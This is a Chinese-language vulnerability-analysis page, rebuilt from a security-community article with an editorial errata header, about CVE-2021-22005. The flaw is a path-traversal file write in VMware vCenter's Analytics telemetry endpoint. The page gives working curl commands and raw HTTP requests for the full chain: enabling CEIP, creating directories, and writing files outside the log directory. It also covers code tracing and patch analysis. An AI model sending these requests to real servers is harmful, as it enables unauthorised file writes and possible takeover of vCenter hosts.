# CVE-2021-22005-CEIP 分析 - 先知社区

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：VMware vCenter Analytics
- 文献类型：CEIP遥测路径与补丁深度分析
- 版本、权限及部署边界：文中7.0U2c/6.7U3o修复且6.7Windows不受影响；该telemetry路径需CEIP、有效collector/缓存及目录初始化；开启CEIP还依既有登录session
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 开头18个其他CVE为同期背景，PoC链接文件名20050疑误写，不作本篇根因
2. 该文章专门分析CEIP受限telemetry变体，不能把其CEIP要求推广为22005所有dataapp利用方式
3. 201仅说明请求被接受，异步处理可能因CEIP/collector/路径失败，并不足证明实际任意文件写入
4. 写入固定.json后缀不是不能写文件，应表述无法任意扩展名；未给从该原语到代码执行的完整验证
5. _C/_c大小写混写、test最终写foo、HTTP多处缺头体空行/长度，需恢复准确请求
6. hashCode参与缓存但碰撞不代表相同key，equals/TTL需纳入说明；首次/二次请求的实验条件有独立价值应保留
7. 补丁包18408195与过滤逻辑详细，白名单内容作者仍在推测，不得当确证；CEIP修改属于配置变更非只读检测
8. VCF产品版本与KB号不适合数值不等式，需映射公告；图片关键源码未视检

### 操作风险

201仅说明请求被接受，异步处理可能因CEIP/collector/路径失败，并不足证明实际任意文件写入；写入固定.json后缀不是不能写文件，应表述无法任意扩展名；未给从该原语到代码执行的完整验证

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://xz.aliyun.com/t/10524#toc-0>
- 原文参考链接（未重新核验）：<http://ksria.com/simpread/>
- 原文参考链接（未重新核验）：<https://censys.io/blog/vmware-cve-2021-22005-technical-impact-analysis/](https://censys.io/blog/vmware-cve-2021-22005-technical-impact-analysis/>
- 原文参考链接（未重新核验）：<https://github.com/knownsec/pocsuite3/blob/master/pocsuite3/pocs/20210923_WEB_Vmware_vCenter_Server_FIleUpload_CVE-2021-20050.py](https://github.com/knownsec/pocsuite3/blob/master/pocsuite3/pocs/20210923_WEB_Vmware_vCenter_Server_FIleUpload_CVE-2021-20050.py>
- 原文参考链接（未重新核验）：<https://testbnull.medium.com/quick-note-of-vcenter-rce-cve-2021-22005-4337d5a817ee](https://testbnull.medium.com/quick-note-of-vcenter-rce-cve-2021-22005-4337d5a817ee>
- 原文参考链接（未重新核验）：<https://mp.weixin.qq.com/s/gVsxziLqRQzb7QVOfyuBKw](https://mp.weixin.qq.com/s/gVsxziLqRQzb7QVOfyuBKw>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/10524#toc-0)

> 先知社区，先知安全技术社区

lz520520@深蓝攻防实验室

2021-09-21 补丁修复了如下一系列漏洞，其中 CVE-2021-22005 评分最高，可 getshell，网上也有该漏洞的 poc，所以接下来也对该漏洞做进一步分析。

```
CVE-2021-22005 vCenter Server 任意文件上传（CVSSv3评分9.8）
CVE-2021-21991：vCenter Server 本地提权漏洞（CVSSv3评分8.8）
CVE-2021-22006：vCenter Server 反向代理绕过漏洞（CVSSv3评分8.3）
CVE-2021-22011：vCenter Server未经身份验证的 API 端点漏洞（CVSSv3评分8.1）
CVE-2021-22015：vCenter Server 本地提权漏洞（CVSSv3评分7.8）
CVE-2021-22012：vCenter Server 未经身份验证的 API 信息泄露漏洞（CVSSv3评分7.5）
CVE-2021-22013：vCenter Server 路径遍历漏洞（CVSSv3评分7.5）
CVE-2021-22016：vCenter Server 反射型 XSS 漏洞（CVSSv3评分7.5）
CVE-2021-22017：vCenter Server rhttpproxy 绕过漏洞（CVSSv3评分7.3）
CVE-2021-22014：vCenter Server 身份验证代码执行漏洞（CVSSv3评分7.2）
CVE-2021-22018：vCenter Server 文件删除漏洞（CVSSv3评分6.5）
CVE-2021-21992：vCenter Server XML 解析拒绝服务漏洞（CVSSv3评分6.5）
CVE-2021-22007：vCenter Server 本地信息泄露漏洞（CVSSv3评分5.5）
CVE-2021-22019：vCenter Server 拒绝服务漏洞（CVSSv3评分5.3）
CVE-2021-22009：vCenter Server VAPI 拒绝服务漏洞（CVSSv3评分5.3）
CVE-2021-22010：vCenter Server VPXD 拒绝服务漏洞（CVSSv3评分5.3）
CVE-2021-22008：vCenter Server 信息泄露漏洞（CVSSv3评分5.3）
CVE-2021-22020：vCenter Server Analytics 服务拒绝服务漏洞（CVSSv3评分5.0）
CVE-2021-21993：vCenter Server SSRF 漏洞（CVSSv3评分4.3）
```

参考
--

任意文件上传  
[https://censys.io/blog/vmware-cve-2021-22005-technical-impact-analysis/](https://censys.io/blog/vmware-cve-2021-22005-technical-impact-analysis/)  
[https://github.com/knownsec/pocsuite3/blob/master/pocsuite3/pocs/20210923_WEB_Vmware_vCenter_Server_FIleUpload_CVE-2021-20050.py](https://github.com/knownsec/pocsuite3/blob/master/pocsuite3/pocs/20210923_WEB_Vmware_vCenter_Server_FIleUpload_CVE-2021-20050.py)  
[https://testbnull.medium.com/quick-note-of-vcenter-rce-cve-2021-22005-4337d5a817ee](https://testbnull.medium.com/quick-note-of-vcenter-rce-cve-2021-22005-4337d5a817ee)  
[https://mp.weixin.qq.com/s/gVsxziLqRQzb7QVOfyuBKw](https://mp.weixin.qq.com/s/gVsxziLqRQzb7QVOfyuBKw)  
[https://mp.weixin.qq.com/s/Jwp4GWKRO4H_AopqJSrBWw](https://mp.weixin.qq.com/s/Jwp4GWKRO4H_AopqJSrBWw)  
官方提供的测试脚本，算是一个漏洞扫描 + 临时补丁  
[https://kb.vmware.com/sfc/servlet.shepherd/version/download/0685G00000YTpbRQAT](https://kb.vmware.com/sfc/servlet.shepherd/version/download/0685G00000YTpbRQAT)  
根据提示漏洞接口应该如下

```
rep = requests.post(self.url + "/analytics/telemetry/ph/api/hyper/send?_c&_i=test",
                                headers={"Content-Type": "application/json"}, data="lorem ipsum")
/analytics/ph/api/dataapp/agent?_c=test&_i=1
/analytics/ph/api/dataapp/agent?action=collect&_c=test&_i=1
/analytics/telemetry/ph/api/hyper/send
/analytics/ph/api/dataapp/agent
```

vmware 公开的 poc

[](../../.resource/remote/46ad7ebe4316fe2f5f24b4abec1874a85e78eecccebf7dda666e18525c8181cd.png)

```
curl -X POST "https://localhost/analytics/telemetry/ph/api/hyper/send?_c&_i=test" -d "Test_Workaround" -H "Content-Type: application/json"
# 实际接口
curl -X POST "http://localhost:15080/analytics/telemetry/ph/api/hyper/send?_c&_i=test" -d "Test_Workaround" -H "Content-Type: application/json"
# CEIP是否开启
curl -k -v "https://192.168.111.11/analytics/telemetry/ph/api/level?_c=test"
# 请求
curl -kv "https://192.168.111.11/analytics/telemetry/ph/api/hyper/send?_c=&_i=/stuff" -H "Content-Type: application/json" -d ""
# 创建一个json文件
/var/log/vmware/analytics/prod/_c_i/stuff.json
# 目录遍历
curl -kv "https://192.168.111.11/analytics/telemetry/ph/api/hyper/send?_c=&_i=/../../../../../../tmp/foo" -H "Content-Type: application/json" -d "contents here will be directly written to /tmp/foo.json as root"
curl -X POST "http://localhost:15080/analytics/telemetry/ph/api/hyper/send?_c&_i=test" -d "Test_Workaround" -H "Content-Type: application/json" -v 2>&1 | grep HTTP


```

影响范围
----

```
vCenter Server 7.0 < 7.0 U2c
vCenter Server 6.7 < 6.7 U3o
Cloud Foundation (vCenter Server) 4.x < KB85718 (4.3)
Cloud Foundation (vCenter Server) 3.x < KB85719 (3.10.2.2)
6.7 Windows 不受影响

```

漏洞分析
----

### TelemetryLevelBasedTelemetryServiceWrapper 请求入口

根据 poc 提示接口 / analytics/telemetry/ph/api/hyper/send，找到对应的类

```
analytics-push-telemetry-server-6.7.0.jar#com.vmware.ph.phservice.push.telemetry.server.AsyncTelemetryController.class

```

这个类是 springboot 的 controller，找到漏洞 URI，可以看到提交的两个参数`_c`和`_i`对应的是 collectorId 和 collectorInstanceId  
[](../../.resource/remote/7fa92920ac4910a970c0df2cc1653365030e6236149366f053870869d3c33c01.png)  
继续跟踪到`TelemetryLevelBasedTelemetryServiceWrapper#processTelemetry`  
`TelemetryLevelBasedTelemetryServiceWrapper`是在`AsyncTelemetryServiceWrapper$TelemetryRequestProcessorRunnable`类里调用，这个类是 Runnable 实现类，用于多线程调用，所以通过该类的 run 方法进一步跟踪到`processTelemetry`的。  
生成一个 Telemetrylevel 对象，TelemetryLevel 是一个枚举类型，这里会判断`TelemetryLevel.OFF`是否不等，继续看一下 OFF 是怎么设置的

```
public enum TelemetryLevel {
    OFF,
    BASIC,
    FULL;
    private TelemetryLevel() {
    }
}


```

[](../../.resource/remote/c96c5e3b223cb5443adcb9399d5fc5e8ce4b5f4e2868915af93c68b8abc9a9d8.png)  
调用堆栈

```
processTelemetry:44, TelemetryLevelBasedTelemetryServiceWrapper (com.vmware.ph.phservice.push.telemetry)
run:66, AsyncTelemetryServiceWrapper$TelemetryRequestProcessorRunnable (com.vmware.ph.phservice.push.telemetry.internal.impl)
call:511, Executors$RunnableAdapter (java.util.concurrent)
run:266, FutureTask (java.util.concurrent)
runWorker:1149, ThreadPoolExecutor (java.util.concurrent)
run:624, ThreadPoolExecutor$Worker (java.util.concurrent)
run:748, Thread (java.lang)

```

[](../../.resource/remote/5d2cf812dff1820683176033cf8979d01539d5a114ce8f0c2eb194562686615a.png)

### ceip

#### getTelemetryLevel

```
getTelemetryLevel:56, DefaultTelemetryLevelService (com.vmware.ph.phservice.push.telemetry)
processTelemetry:40, TelemetryLevelBasedTelemetryServiceWrapper (com.vmware.ph.phservice.push.telemetry)
run:66, AsyncTelemetryServiceWrapper$TelemetryRequestProcessorRunnable (com.vmware.ph.phservice.push.telemetry.internal.impl)
call:511, Executors$RunnableAdapter (java.util.concurrent)
run:266, FutureTask (java.util.concurrent)
runWorker:1149, ThreadPoolExecutor (java.util.concurrent)
run:624, ThreadPoolExecutor$Worker (java.util.concurrent)
run:748, Thread (java.lang)、

```

[](../../.resource/remote/feaf4f749f6679203b7b46678d6153faaa7ab70d1ce070505e549adcfd62f108.png)  
`this._telemetryLevelService.getTelemetryLevel`定位到如下，可以看到这里会判断 ceip（Customer Experience Improvement Program）是否开启  
DefaultTelemetryLevelService  
[](../../.resource/remote/7a499361f9606a88656e29555d098956e7dcc8a86819b10673addc5a56c8e808.png)  
其实 ceip 是客户体验提升计划，不一定开启。点击加入开启后，其实对提交的`_C`是有要求的  
[](../../.resource/remote/a493878ece0b163b5891b1b74d86f3f89345fd79158ebbbe4fcf760bf81eeda4.png)  
如下`_C`为 111 返回还是 off，所以参数有要求的  
[](../../.resource/remote/dde8a14326e2f3710c92eca238e31c24500044999cd2ac1273dde18092c14979.png)  
查看漏洞利用目录`/var/log/vmware/analytics/prod`下有一个 json 文件  
[](../../.resource/remote/020c681e1b956e6c8584c95946262dcd8e635e881278130fcdd16b1c148c7800.png)  
其实是如此拼接成的，所以

```
_c + vSphere.vapi.6_7 + _i + 9D36C850-1612-4EC4-B8DD-50BA239A25BB.json

```

再次测试可发现返回 FULL 了  
[](../../.resource/remote/f3b27b82cf0e4d71d0b0fb868585de83153efd89debc6d1a8a96f14bde3f0529.png)  
或者通过该接口请求测试是否正常，这个请求会生成 ceip 缓存，后续请求就不会再发送 ceip 到 vmware 了。

```
curl -k -v "https://192.168.111.11/analytics/telemetry/ph/api/level?_c=vSphere.vapi.6_7"


```

这里再继续分析下 getTelemetryLevel，他会先判断 ceip 是否开启，如果没开启，则直接返回`OFF`，如果为 true，则进行判断。  
这里有个变量`this._collectorToTelemetryLevelCache`来存储 collectorAgent 对象（基于`_c`和`_i`生成），如果缓存里有了，就不会再次发遥测请求，_collectorToTelemetryLevelCache 在这里是 SimpleTimeBasedCacheImpl 类，内部实际存储 collectorAgent 是用的 hashmap。  
[](../../.resource/remote/79c9b76d282978ce58a01dc367ef847b75684be143d531189c705e34eb67c204.png)  
[](../../.resource/remote/4947dbeb36b08e38ce8d6cef9e29ca11a43544715277abbffab8578d374234ac.png)  
这里通过 get 获取 key（即 collectorAgent），所以看看 hashCode 怎么实现的。  
其实可以看到和`_collectorId`和`_collectorInstanceId`都相关。

```
public int hashCode() {
        int hash = this._collectorId.hashCode();
        if (this._collectorInstanceId != null) {
            hash = hash * 31 + this._collectorInstanceId.hashCode();
        }
        return hash;
    }


```

做个测试，`_c`和`_i`，如下就是不同缓存

```
CollectorAgent c1 = new CollectorAgent("vSphere.vapi.6_7", "c1");
CollectorAgent c2 = new CollectorAgent("vSphere.vapi.6_7", "c2");
this._collectorToTelemetryLevelCache.put(c1, telemetryLevel);
this._collectorToTelemetryLevelCache.get(c2);

```

[](../../.resource/remote/d4a999bc70a4733c280b3219904b8362b191e0280750083984452e5f0652f6d6.png)

#### getTelemetryLevelFromManifest

```
getTelemetryLevelFromManifest:82, DefaultTelemetryLevelService (com.vmware.ph.phservice.push.telemetry)
getTelemetryLevel:69, DefaultTelemetryLevelService (com.vmware.ph.phservice.push.telemetry)
processTelemetry:40, TelemetryLevelBasedTelemetryServiceWrapper (com.vmware.ph.phservice.push.telemetry)
run:66, AsyncTelemetryServiceWrapper$TelemetryRequestProcessorRunnable (com.vmware.ph.phservice.push.telemetry.internal.impl)
call:511, Executors$RunnableAdapter (java.util.concurrent)
run:266, FutureTask (java.util.concurrent)
runWorker:1149, ThreadPoolExecutor (java.util.concurrent)
run:624, ThreadPoolExecutor$Worker (java.util.concurrent)
run:748, Thread (java.lang)

```

[](../../.resource/remote/44375f3f957436467e261b9a44dfe752825b326fa0a5921575cdbedec4cd1bef.png)  
那么再看看 DefaultTelemetryLevelService#getTelemetryLevelFromManifest 怎么发送遥测请求的，代码如下  
[](../../.resource/remote/88058fb04b8122a4e141df351d2ee0cda8838c4468cee91fb1b6b654327b9744.png)  
manifestContentProvider.getManifestContent 请求返回有以下几种情况

1.  collectorId 和 collectorInstanceId 随机，抛出异常，INVALID_COLLECTOR_ERROR, 这里提示 collectors ID 不在白名单内

[](../../.resource/remote/19c9193ec894cabf3caa83e554a4941fa135614b349e9f5112b5468c7ee7fba8.png)

1.  collectorId 为 vSphere.vapi.6_7，抛出异常，GENERAL_ERROR，404

[](../../.resource/remote/fda12f6c3c3422b67e619cb99642b5189ea43c5ad3d0ba5654e0a4c42ed79746.png)

1.  再第一次请求后，如果修改参数`_i`(collectorInstanceId)，后续二次请求都会报这个错

[](../../.resource/remote/c68ee3c18600a0897dc22d67760c3ec51b93b6e7a8e2a00a7a224417bed0856b.png)  
上面请求最终跟踪到如下位置 com.vmware.ph.upload.rest.PhRestClientImpl#getManifest，GET 请求  
[](../../.resource/remote/5aa58de7317a69a5af751d4c8f80939e2ee3ebacce65583b2afc310df3aa94b6.png)  
手动发送，和之前获取的确实一样。  
[](../../.resource/remote/83a62c3c3b6b542f78ed5bec1437ed73c798f25bc5cd748c44e1e82218e162db.png)  
有效请求  
[](../../.resource/remote/1ac459eff276622c8d4bf0d12c0603ffcd16f661009a8ae167e6f9e77add7657.png)  
PS: 这里在处理返回数据，会调用 json 进行反序列化，转换成 com.vmware.ph.model.exceptions.ServiceException  
[](../../.resource/remote/e04a96c7bee4778b69afe6f96658941d5a8f1463e2366132cedb3cdbaeccfc7b.png)  
`DefaultTelemetryLevelService#getTelemetryLevelFromManifest`，我们看下抛出异常后再次调用`getTelemetryLevelForFailedManifestRetrieval`，如果异常是`INVALID_COLLECTOR_ERROR`，那么直接返回 OFF，如果不是就返回 FULL，defaultTelemetryLevel 初始化的时候为 FULL。  
所以如果首次请求的 collectorId 不对，那么即时开了 ceip 也是无法利用成功，但第二次还是可以成功，所以网上一些分析文章 collectorId 随机也是可以用的，但如果之前没有发送过遥测请求，就会利用失败，所以建议 collectorId 还是设置一个有效的。  
[](../../.resource/remote/49ca60d2d405c38d5645e7ef81f57729905ed4bc8089fed1fe59312cdfed1977.png)

#### 开启 ceip

经过测试，开启 CEIP 的接口无认证要求，可未授权访问

```
curl -kv -X PUT "https://192.168.111.11/ui/ceip-ui/ctrl/ceip/status/true" -d "{}" -H "Content-Type: application/json"


```

PS: 但上面这个测试如果系统启动后没有登录过，请求不会成功  
调试发现，虽然接口请求不需要认证，但修改操作仍然需要 session，只有在有人登录过，这个未授权请求才能生效。  
[](../../.resource/remote/9ded5a0f95a5350893682a9da8e4bf52a4cf5265c51daabdc6cac4475fe87e66.png)  
该请求对应的类在`./plugin-packages/telemetry/plugins/h5-ceip.war`  
com.vmware.vsphere.client.h5.ceip.controller.CeipController  
[](../../.resource/remote/af678f9ec06d1075ca020ebed06de6048a06e98a2a67fd50d5b4dff7ecea86d9.png)  
还有其他两个接口

```
GET /ui/ceip-ui/ctrl/ceip/status
GET /ui/ceip-ui/ctrl/ceip/isAuthorized"

```

### LogTelemetryService

所以看来 CEIP 没有比较好的方案开启了。

```
processTelemetry:56, LogTelemetryService (com.vmware.ph.phservice.push.telemetry)
processTelemetry:45, TelemetryLevelBasedTelemetryServiceWrapper (com.vmware.ph.phservice.push.telemetry)
run:66, AsyncTelemetryServiceWrapper$TelemetryRequestProcessorRunnable (com.vmware.ph.phservice.push.telemetry.internal.impl)
call:511, Executors$RunnableAdapter (java.util.concurrent)
run:266, FutureTask (java.util.concurrent)
runWorker:1149, ThreadPoolExecutor (java.util.concurrent)
run:624, ThreadPoolExecutor$Worker (java.util.concurrent)
run:748, Thread (java.lang)


```

[](../../.resource/remote/67a7720cd9bdabf4744d5f19f213f471abcf83a2df356eb0c476ed28abe8334e.png)  
当 ceip 开启，继续跟踪到`com/vmware/ph/phservice/push/telemetry/LogTelemetryService#processTelemetry`，  
[](../../.resource/remote/cb565c0e12d4a1c04ebba80bb92cbfdf8a8c87ff38484ae8ebe69c8c5fadee35.png)  
日志目录是`/var/log/vmware/analytics/prod`  
[](../../.resource/remote/55d5286d01079035498386a4994c94822f220818e6946337c30738b247abb7be.png)  
日志文件名则是，可以看到

```
_c%1$s_i%2$s

```

[](../../.resource/remote/dad6e8332d68976810770b1c541d12652033cf551bf95a8f98130c938e992d9b.png)  
继续往下就是日志记录，`this._logger`可以看到日志路径，而`serializeToLogMessage(telemetryRequest)`就是 POST 请求的 body 数据  
[](../../.resource/remote/5a08dbcf9f93f2286c2b623f39fa78bbb4665a72527f2c59ea97cdef5be0b86a.png)  
那么当请求参数`_c=vSphere.vapi.6_7&_i=/../../../../../../tmp/foo`  
则拼接为`/var/log/vmware/analytics/prod/_cvSphere.vapi.6_7_i/../../../../../../tmp/foo.json`  
但如果_cvSphere.vapi.6_7_i 不存在，则会目录遍历失败，这个是 linux 的问题，所以必须先请求一次`_c=vSphere.vapi.6_7&_i=/temp`,log4j 会创建目录，然后再请求上面 URL，实现目录遍历。  
[](../../.resource/remote/706186b59c5103cd1a92c453218219de3b4f904b140a154d6184a2b670e5e00c.png)  
PS: prod 目录默认也是没有的，vcenter 自身正常会创建这个 prod 目录，但 ceip 没开启之前，是没有的，所以建议也请求下正常的参数。  
创建 prod 目录

```
POST /analytics/telemetry/ph/api/hyper/send?_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 192.168.111.11
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: abc
Content-Length: 3
{}


```

创建_cvSphere.vapi.6_7_i 目录

```
POST /analytics/telemetry/ph/api/hyper/send?_c=vSphere.vapi.6_7&_i=/temp HTTP/1.1
Host: 192.168.111.11
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: abc
Content-Length: 3
{}


```

由于后缀只能是 json，所以无法直接写文件，那么可以写到一个可执行文件内容的路径，这个大家就自行发挥想象力找找 linux 上可执行的方法了。

```
POST /analytics/telemetry/ph/api/hyper/send?_c=vSphere.vapi.6_7&_i=/../../../../../../tmp/test HTTP/1.1
Host: 192.168.111.11
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: abc
Content-Length: 4
test


```

### 整理思路

1.  AsyncTelemetryController 是 / analytics/telemetry/ph/api/hyper/send 请求处理入口，接收`_c`和`_i`参数
2.  调用 TelemetryLevelBasedTelemetryServiceWrapper#processTelemetry 发起 ceip 遥测请求，，成功后进一步处理`_c`和`_i`
3.  processTelemetry 里调用`this._telemetryLevelService.getTelemetryLevel`来判断 ceip 遥测请求是否正常，这里也会传入`_c`和`_i`，如果开启成功可获取一个 FULL 值，除了需要开启 ceip，还会对 vmware 的一个 API 接口发送请求，，需要注意的一点，如果之前没发起遥测请求，则对_c 参数有要求，必须是一个合法的值，如果已经请求过，后续因为有缓存，不会再请求，则可成功通过校验。
4.  如果 ceip 未开启，可通过 / ui/ceip-ui/ctrl/ceip/status/true 开启，但 vcenter 之前需要有人已经登录过一次，否则会出现接口未认证的报错。
5.  ceip 请求成功后，processTelemetry 接着调用 LogTelemetryService#processTelemetry 来解析`_c`和`_i`，log4j 通过`_c$s_i$s`格式拼接日志路径，_i 设置成如 /../../../../../../tmp/test 即可导致任意路径遍历写入文件，当`_c=vSphere.vapi.6_7&_i=/../../../../../../tmp/test`最终路径拼接如`/var/log/vmware/analytics/prod/_cvSphere.vapi.6_7_i/../../../../../../tmp/foo.json`，这里需要注意的是 linux 上目录遍历时需要遍历前的上级目录存在才可遍历。

验证
--

返回 201 表示漏洞存在

```
POST /analytics/telemetry/ph/api/hyper/send?_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 192.168.111.11
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Content-Length: 11
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Type: application/json
Accept-Encoding: gzip, deflate
Connection: close
lorem ipsum


```

利用
--

第一步判断 ceip

```
# 修改ceip
curl -kv -X PUT "https://192.168.111.11/ui/ceip-ui/ctrl/ceip/status/true" -d "{}" -H "Content-Type: application/json"
# 判断ceip是否启动
curl -k -v "https://192.168.111.11/analytics/telemetry/ph/api/level?_c=vSphere.vapi.6_7"


```

[](../../.resource/remote/9461d9ba2d64396a9054d383e566af71d684bd8afd4de838514196a2448ced58.png)  
[](../../.resource/remote/53b0d352d800932bb29f4de49cfe2206cff3f243e0feb41de1f09fd1e9f174f3.png)  
/var/log/vmware/analytics/prod 创建 `prod`和`_cvSphere.vapi.6_7_i`  
_i 参数每次都要修改，因为文件如果被删除，就不会再次被创建了

```
POST /analytics/telemetry/ph/api/hyper/send?_c=vSphere.vapi.6_7&_i=temp HTTP/1.1
Host: 192.168.111.11
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: abc
Content-Length: 3
{}


```

```
POST /analytics/telemetry/ph/api/hyper/send?_c=vSphere.vapi.6_7&_i=/temp HTTP/1.1
Host: 192.168.111.11
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: abc
Content-Length: 3
{}


```

[](../../.resource/remote/52591dd33ffd7edc4d115b9f2385889594492376fc3e3baa80275fb115e47362.png)  
写任意路径文件

```
POST /analytics/telemetry/ph/api/hyper/send?_c=vSphere.vapi.6_7&_i=/../../../../../../tmp/test HTTP/1.1
Host: 192.168.111.11
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: abc
Content-Length: 4
test


```

补丁分析
----

补丁包  
VMware-analytics-6.7.0-18408195.x86_64.rpm，解压出来就是各种 jar 包和其他一些配置文件，对比 jar 包，定位到如下  
[](../../.resource/remote/50a46a2b9992b708d70e109c37e2897117abbdbd614e1dfb74e33ae20904f75d.png)  
对比补丁，补丁在 AsyncTelemetryController#handleSendRequest 里新增了一个条件判断  
[](../../.resource/remote/f55108e73e65a78338ce9413f433cfb28c7d0d9e787b1b64bd1ea1da051ad2ec.png)  
判断语句

```
(IdFormatUtil.isValidCollectorInstanceId(collectorInstanceId) && AsyncTelemetryController.this._collectorIdWhitelist.contains(collectorId))

```

IdFormatUtil.class 在 analytics-6.7.0.jar 里  
collectorInstanceId 正则过滤`[\\w-]{1,64}` =`[A-Za-z0-9_-]{1,64}`，如 9D36C850-1612-4EC4-B8DD-50BA239A25BB，没法使用. 和 /，所以这个绕不过了  
collectorId `[a-zA-Z][\w-\.]{1,40}[a-zA-Z0-9]`, 如 vSphere.vapi.6_7，也没法使用 /，但没调用。  
[](../../.resource/remote/16fa4247e2449bfce78989522134175a179cfaef14088f878cc807123d0db942.png)  
collectorId 是用一个白名单，需要调试才能最终确定白名单内容，但根据上面的正则也能大致猜测，这里的白名单估计和之前 ceip 遥测请求的 API 接口是一样的。  
this._collectorIdWhitelist 为在控制器初始化的传入  
[](../../.resource/remote/7e0192a069c64f86ca3f057c0d3d4782a825dc2089204a55d4bfbc72cc908555.png)  
另外除了公开的漏洞利用点之外，AsyncTelemetryController 还有两个私有类也有 patch，都是 Callable 的实现类（即多线程），这里会检查 collectorId  
[](../../.resource/remote/d3332c48bcb18203a5be4ed909e653296ee04430d365ca231eb1589b095aba83.png)  
另一个和之前漏洞点判断是一样的。  
[](../../.resource/remote/b26088cae873dd6433d58bd7449fd6bdb9150bad82e879b1d6f3015768b21ceb.png)  
那么是否可以找到其他没做过滤的 telemetryService.processTelemetry 调用点，在这之前其实还需要检查下 processTelemetry 内部是否还有 patch。  
这里调用的实现类是 TelemetryLevelBasedTelemetryServiceWrapper，另一个相关的是 LogTelemetryService  
TelemetryLevelBasedTelemetryServiceWrapper 在 analytics-6.7.0.jar 里，但对比了补丁，没发现直接的改动。  
但有其他几处 DataAppAgentId 做了相同的过滤，这就涉及到另一个漏洞点了。  
LogTelemetryService 在同个包里，也没做修改。  
[](../../.resource/remote/066a67d032900419550d5813fa497838e379395dd4231baea2bed37d2d6a6e54.png)

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
